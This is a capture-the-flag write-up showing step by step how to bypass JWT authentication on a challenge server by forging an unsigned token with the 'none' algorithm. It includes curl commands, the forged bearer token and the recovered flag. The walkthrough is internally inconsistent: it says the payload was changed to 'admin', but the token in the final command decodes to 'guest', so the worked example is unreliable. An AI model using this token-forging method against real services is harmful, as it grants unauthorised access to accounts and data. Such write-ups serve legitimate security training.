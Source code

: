 # Token of Trust - CTF Challenge Writeup

## Challenge Information
**Name:** Token of Trust  
**Description:** At first, this web app seems straightforward, but there's something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system's trust can be manipulated. The secret is hidden within the way this token is used. Can you find the key to unlock what's been concealed?  
**Target:** http://34.131.133.224:9999/

## Challenge Overview
This challenge presents a web application that uses token-based authentication for controlling access. At first glance, the application appears to be a standard login system, but there's a security flaw in how it handles and validates authentication tokens.

The challenge hints that the system's "trust can be manipulated," suggesting that the token validation mechanism is vulnerable. Our goal is to exploit this vulnerability to access protected resources and retrieve the hidden flag.

## Solution Walkthrough

### Step 1: Initial Reconnaissance
Upon visiting the main page at http://34.131.133.224:9999/, we see the following message:

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. ❤️
PS: Don't forget to set your headers for JSON, or I'll just ignore you. 😉
```

This gives us clear instructions:
- We need to visit the `/login` endpoint
- We should use POST requests
- We need to set appropriate JSON headers

### Step 2: Exploring the Login Endpoint
When accessing the `/login` endpoint, we receive the following response:

```
Oops! Wrong approach.
You can't just walk in here without a proper POST request.
Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.
Hint: I only care about your request format, not your credentials. 😉
```

This confirms we need to send a POST request with a JSON payload, and interestingly, the hint suggests that the actual credentials don't matter - only the format.

### Step 3: Authentication and JWT Analysis
Next, we send a POST request to the `/login` endpoint with the suggested JSON payload:

```bash
curl -X POST http://34.131.133.224:9999/login \
  -H "Content-Type: application/json" \
  -d '{"user":"ace","pass":"ctf"}'
```

The server responds with a JWT (JSON Web Token). To analyze this token, we use the JWT decoder at https://fusionauth.io/dev-tools/jwt-decoder.

When decoded, we can see the token consists of three parts:
1. **Header**: Contains the token type and signing algorithm (HS256)
   ```json
   {
     "alg": "HS256",
     "typ": "JWT"
   }
   ```
2. **Payload**: Contains the claims
   ```json
   {
     "user": "guest"
   }
   ```
3. **Signature**: Used to verify the token hasn't been tampered with

### Step 4: JWT Manipulation
The key vulnerability here is related to the JWT's algorithm. JWT supports multiple algorithms for signing, including an algorithm called "none" which effectively means "no signature verification."

In a secure implementation, the server should reject tokens with the "none" algorithm. However, many JWT libraries had vulnerabilities where they would accept "none" algorithm tokens, effectively bypassing signature verification.

We modify the JWT by changing the algorithm in the header from "HS256" to "none" and removing the signature part:

Original header:
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Modified header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

**Payload**: Contains the claims
   ```json
   {
     "user": "admin"
   }
   ```

### Step 5: Discovering Hidden Endpoints
Now we need to find where to use our manipulated token. A common technique in web application reconnaissance is checking the robots.txt file, which often contains information about restricted areas of a website.

When checking `http://34.131.133.224:9999/robots.txt`, we discover a disallowed endpoint: `/flag`.

### Step 6: Accessing the Protected Resource
With our manipulated JWT and the knowledge of the `/flag` endpoint, we can now try to access this protected resource:

```bash
curl -X POST http://34.131.133.224:9999/flag \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiZ3Vlc3QifQ." \
  -H "Content-Type: application/json"
```

### Step 7: Flag Retrieval
The server accepts our manipulated token with the "none" algorithm and processes our request as if we were authenticated with valid credentials. The server responds with the flag:

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```
## Flag
`ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`
